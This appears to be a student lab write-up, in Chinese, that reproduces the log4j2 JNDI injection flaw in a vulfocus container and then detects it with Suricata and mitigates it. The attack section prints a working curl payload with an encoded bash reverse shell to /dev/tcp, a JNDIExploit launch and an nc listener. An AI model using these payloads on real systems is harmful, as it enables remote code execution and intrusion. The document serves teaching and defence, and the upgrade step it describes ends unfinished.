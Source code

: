 # `log4j2` 漏洞复现与缓解修复

## 漏洞攻击

### 检测漏洞存在性

- 使用 `java decompiler` 反编译 `demo.jar` 后可观察到受影响组建的版本号为 `2.14.0` ,确实处于受影响版本范围内，同时可以定位到漏洞代码
 ![alt text](decompile-demo.jar.png)

### 验证漏洞可利用性

 - 选择使用 `PoC` 手动测试
 按照课程使用 `POST` 请求发现报错方法不被支持，改用 `GET` 请求
 ![alt text](test-vulnerability-available.png)
 刷新dnslog记录，成功验证漏洞可利用
 ![alt text](dnslog.png)

### 评估漏洞利用效果

- 工具下载
由于课件中的国内镜像下载地址无法访问，选择先从 `github` 下载再通过 `scp` 传输到虚拟机中
![alt text](tool-download.jpg)
传输完成后在虚拟机中计算校验和，确认无误
![alt text](check-sum.png)

- 【手动】测试 `reverse shell` 的过程
直接在容器中创建反弹 `shell`
![alt text](test-ReverseShell.png)
可以看到这个 `shell` 的输入、输出和错误输出重定向到指定 `IP` 地址（192.168.56.108）的指定端口（7777）,并且成功 `get flag`
![alt text](test-ReverseShell-result.png)

- 开始漏洞利用
    - 在攻击者主机上启动工具
    ```bash
    java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.56.108
    ```
    - 在攻击者主机上提前运行监听程序，等待反弹连接
    ```bash
    nc -l -p 7777
    ```
    - 投放攻击代码:由于 `POST` 方法不被支持，改用 `GET` 方法
    ```bash
     curl "http://192.168.56.107:62564/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2F192.168.56.108%3A1389%2FTomcatBypass%2FCommand%2FBase64%2F$(echo -n 'bash -i >& /dev/tcp/192.168.56.108/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')%7D"
    ```
    ![alt text](attack.jpg)
    - 攻击者主机成功 `getshell`
    ![alt text](getshell.jpg)


## 漏洞利用检测

- 启动 `suricata` 检测容器
```bash
 docker run -d --name suricata --net=host -e SURICATA_OPTIONS="-i eth1" jasonish/suricata:6.0.4
```
![alt text](run-suricata.png)

- 更新 `suricata 规则`，更新完成测试完规则之后会自动重启服务
```bash
docker exec -it suricata suricata-update -f
```
![alt text](update-suricata-rules.png)

- 监视 `suricata` 日志
```bash
docker exec -it suricata tail -f /var/log/suricata/fast.log
```

- 重复前述漏洞攻击实验,分析日志输出
![alt text](suricata-log-contents.png)
1. **03/23/2025 - 12:16:00.698506记录**
    - **时间**：2025年3月23日12点16分00秒698506微秒。
    - **规则**：`[1:2022973:1] ET POLICY Possible Kali Linux hostname in DHCP Request Packet`，表示检测到DHCP请求数据包中可能包含Kali Linux的主机名。
    - **分类**：`Potential Corporate Privacy Violation`，即潜在的企业隐私侵犯。
    - **优先级**：1（最高优先级）。
    - **流量信息**：源IP `192.168.56.107`，源端口68（DHCP客户端端口），目的IP `192.168.56.100`，目的端口67（DHCP服务器端口），协议为UDP。这表明在网络中的`192.168.56.107`主机通过DHCP请求获取IP地址时，其主机名可能暗示它是Kali Linux系统。Kali Linux常用于渗透测试等安全工作，在企业网络中未经授权使用可能存在安全风险。
2. **03/23/2025 - 12:17:54.026260及后续多条类似记录**
    - **时间**：从12点17分54秒开始，有多条相近时间的记录。
    - **规则**：`[1:2034818:2] ET POLICY Serialized Java Object returned via LDAPv3 Response`，意味着检测到通过LDAPv3响应返回了序列化的Java对象。
    - **分类**：`Potentially Bad Traffic`，即可能的恶意流量。
    - **优先级**：2（较高优先级）。
    - **流量信息**：源IP `192.168.56.108`，源端口1389（LDAP服务默认端口），目的IP `192.168.56.107`，不同的目的端口（如51870、51878等），协议为TCP。这显示`192.168.56.108`的LDAP服务器向`192.168.56.107`的客户端发送了序列化的Java对象。在许多情况下，序列化的Java对象可被用于利用Java应用程序中的漏洞，比如Log4j漏洞就涉及通过JNDI（Java Naming and Directory Interface ）利用LDAP服务加载恶意的Java对象，进而执行任意代码，所以这类流量被视为可疑。 


## 漏洞缓解以及效果验证

### **1. 停止当前运行的容器**
```bash
docker stop happy_curran
```
![alt text](stop-container.jpg)

### **2. 重新启动容器并添加 JVM 参数并验证参数是否生效**
```bash
docker run -d \
  -p 60443:8080 \  # 保持原端口映射
  -e "JAVA_TOOL_OPTIONS=-Dlog4j2.formatMsgNoLookups=true" \
  --name log4j-patched \  # 可选：指定新容器名称
  vulfocus/log4j2-cve-2021-44228:latest
```
![alt text](restart-container.jpg)


### **3. 漏洞缓解验证**
- 重复攻击步骤，攻击机已无法成功 `getshell`
![alt text](attack-again.jpg)
![alt text](getshell-fail.jpg)

- 使用 `PoC` 手动测试验证漏洞可用性
![alt text](check-availability.jpg)


## 漏洞修复

### **方法1：增加参数配置（临时方案）**
由于 `Log4j `提供了一个名为 `JNDI（Java Naming and Directory Interface）` 的功能，允许从远程服务器中动态加载类或资源。 在日志消息或参数中，`Log4j` 支持解析形如 `${}` 的表达式，并允许通过 `JNDI` 加载外部数据。因此，禁用 `JNDI` 查找功能 ，完全禁用 `JNDI` 加载 ， 禁用 `RMI` 和 `LDAP` 加载远程类 ， 禁用 `DNS` 缓存，防止基于 `DNS` 的利用 ， 在配置文件中明确禁用 `JNDI` 相关组件，应该能够暂时修复漏洞
```bash
# 启动一个名为"log4shell"的后台容器，使用漏洞靶场镜像
docker run -d --name log4shell \

  # 将宿主机的22220端口映射到容器8080端口（暴露Web服务）
  -p 22220:8080 \

  # 使用预置的Log4j2漏洞环境镜像（CVE-2021-44228）
  vulfocus/log4j2-rce-2021-12-09:1 \

  # 启动Java应用时添加安全参数：
  java \
    # 禁用Log4j的MessageLookup功能（缓解RCE漏洞）
    -Dlog4j2.formatMsgNoLookups=true \
    
    # 禁止RMI协议加载远程代码库（阻断JNDI注入攻击路径）
    -Dcom.sun.jndi.rmi.object.trustURLCodebase=false \
    
    # 禁止LDAP协议加载远程代码库（双重防护）
    -Dcom.sun.jndi.ldap.object.trustURLCodebase=false \
    
    # 设置DNS正解析缓存时间为0秒（立即刷新解析记录）
    -Dsun.net.inetaddr.ttl=0 \
    
    # 设置DNS负解析缓存时间为0秒（防止缓存攻击）
    -Dsun.net.inetaddr.negative.ttl=0 \

    # 运行漏洞演示应用（模拟存在漏洞的服务）
    -jar /demo/demo.jar
```
**效果验证**
重复攻击步骤，已无法成功 `getshell`
![alt text](result1.png)

### **方法2：更新log4j2到2.17.1版本（长期方案）**
1. 由于容器中缺少更新必需工具，选择将 `demo.jar` 移入本机进行更新
![alt text](delete-old-version-log4j.jpg)
2. 下载新版本 `log4j` 
```bash
 sudo wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-core/2.17.1/log4j-core-2.17.1.jar
  sudo wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-api/2.17.1/log4j-api-2.17.1.jar
```
![alt text](download-new-version.png)
3. 将替换完成后的 `demo.jar` 重新打包，传回容器
```bash
jar cfm0 ../demo-patched.jar ./META-INF/MANIFEST.MF -C . .
docker cp ./demo-patched.jar hungry_dhawan:/demo
```
![alt text](repack-demo.png)
![alt text](cp-demo-to-container.png)

4. 重启容器内的应用服务
```bash
docker exec -it hungry_dhawan /bin/bash -c "pkill -f 'java -jar /demo/demo.jar'; java -jar /demo/demo.jar &"
```
**出现问题，容器无法重启，多次尝试无果，仍待续作。**
![alt text](fail-to-restart-container.png)















